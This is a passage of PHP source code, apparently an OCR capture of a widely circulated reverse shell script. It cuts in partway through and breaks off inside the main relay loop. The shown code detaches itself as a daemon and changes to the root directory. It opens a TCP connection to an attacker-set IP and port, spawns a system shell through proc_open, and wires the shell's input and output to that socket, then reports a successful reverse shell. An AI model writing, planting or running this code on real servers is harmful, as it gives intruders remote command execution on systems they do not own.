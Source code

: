 ```
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
```